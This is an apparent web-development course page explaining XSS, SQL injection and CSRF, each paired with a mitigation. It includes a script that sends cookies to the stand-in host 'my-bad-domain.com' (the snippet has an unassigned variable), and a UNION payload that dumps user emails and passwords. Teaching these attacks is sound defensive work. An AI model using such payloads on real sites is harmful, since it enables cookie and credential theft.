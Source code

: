 # 4.4: Security

## Learning Objectives

1. The most vulnerable security loopholes are usually human ones such as phishing or insecure storage of passwords
2. If we follow best practices for building apps, generally our apps should be technically secure
3. Know how well-known attacks such as XSS, CSRF and SQL injection work

## Introduction

Data breaches more commonly exploit human behaviour than technical loopholes, using techniques such as phishing to retrieved credentials from privileged users. This is why cybersecurity is more often about mandating phishing training, multi-factor authentication and minimal access privileges across organisations than technical security of applications.

If we follow best practices for building apps as we have so far, our apps should be technically secure. When we deviate from standard libraries and configure authentication, database access, cloud access privileges manually, that is when security considerations become more relevant. Teams that manage sensitive data should conduct regular audits to ensure technical application security.

In this submodule we will learn about 3 well-known types of technical attacks on web applications, so common they are listed in the [OWASP Top 10](https://owasp.org/www-project-top-ten/), a publicly-maintained list of the 10 most common web application security risks. These are Cross-Site Scripting (XSS), SQL Injection and Cross-Site Request Forgery.

## Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting (aka XSS) is a type of injection attack where an attacker saves JavaScript in a system to be executed later. When executed, that JavaScript might send a request with the logged-in user's credentials to a different server, or perform an unauthorised transaction on the current server.

### Part 1: Save JavaScript to database

#### Exploit

The first part of an XSS attack is saving JavaScript to the database. We can do this by entering JavaScript into an non-sanitised form field, such as the following.

```javascript
<script>alert("Hey!")</script>
```

#### Mitigation: Validate user input

Always validate user input before saving to database. Validation logic is complicated, but luckily others have implemented convenient libraries for us and those libraries are publicly maintained. One of the most popular validation libraries is [`xss`](https://www.npmjs.com/package/xss).

### Part 2: Execute non-sanitised user input

#### Exploit

Once the app has saved our script to the database, the app should run our script every time the app retrieves that data and renders it in the frontend.

We can now make the app execute arbitrary JavaScript and alter our JavaScript to steal other users' credentials. One such exploit would be to send the logged-in user's cookies to our own server. Below is an example of such a script that creates an `img` HTML element whose `src` attribute is our URL with all cookies attached.

```html
<script>
  const allCookies = document.cookie;
  document.createElement('img'); 
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

#### Mitigation: Sanitise database values before executing

Most modern view libraries including React will automatically sanitise values before rendering them in HTML to prevent XSS attacks. To prevent this exploit, use a standard library such as React for rendering views, and if we cannot, find a [library to escape values](https://github.com/component/escape-html) before rendering those values in HTML.

[Here is React's documentation](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) on how it sanitises input before rendering it in JSX.

## SQL Injection

### Introduction

SQL injection is a type of injection attack where the attacker injects malicious SQL into user input that is subsequently executed on the database. This is commonly used to steal or corrupt data.

### Exploit: Clever SQL Syntax

Imagine the following Express logic that generates a SQL query.

```javascript
const query = `SELECT name, type FROM cats WHERE name='${request.params.name}'`
```

Now imagine instead of a valid name, we input the following to the app.

```sql
kai' UNION SELECT email, password FROM users--
```

This would generate the following SQL query, which would return all user emails and passwords.

```sql
SELECT name, type FROM cats WHERE name='kai' UNION SELECT email, password FROM users--'
```

The above example is from [Portswigger](https://portswigger.net/web-security/sql-injection), a well-known web security blog. `UNION` syntax let's us execute an additional SQL query and append results to the original.

### Mitigation: Always parameterise SQL queries

Our app is vulnerable to SQL injection because we use raw user input in our SQL query.

To prevent this, most SQL libraries such as `pg` allow us to provide user input as parameters separate from the SQL query, such that the library can sanitise that input before constructing the query. ORM libraries like Sequelize automatically sanitise input when constructing SQL queries.

## Cross-Site Request Forgery (CSRF)

### Introduction

Cross-Site Request Forgery (aka CSRF) is an attack where an attacker sends a forged request to a legitimate server to perform functionality on behalf of a user. This forged request is commonly generated by phishing, for example making the user click a link that triggers the attack functionality. This can be used to compromise user accounts by changing passwords, for example.

### Exploit Part 1: Make user click on link

If we suspect a user's browser may be storing authentication credentials, we can use phishing techniques to make that user click on a link that either changes those credentials to something we know (e.g. change password) or perform other functionality (e.g. transfer money). This link can be masked with text (e.g. "unsubscribe here") or a call to action button (e.g. "Learn More").

### Exploit Part 2: Legitimate server does not check for CSRF

As an example, if an API server's password reset route were a GET route and user credentials were stored in the browser from a previous login, attackers could craft a link to set new password credentials in the request URL while sending login credentials via cookies with the request. This is why we should always use POST or PUT requests for altering data on our servers.

### Mitigation: CSRF token and token verification

To prevent CSRF, we can protect sensitive routes that should only be accessed by specific forms (and not wild links) with cryptographic tokens called CSRF tokens. These tokens would be generated by the backend, passed to the frontend on form load and validated by the backend on form submission. This guarantees that users can only submit valid form submissions from the frontend app and nowhere else.

``[`csurf`](http://expressjs.com/en/resources/middleware/csurf.html) is the most popular CSRF token library for Express.
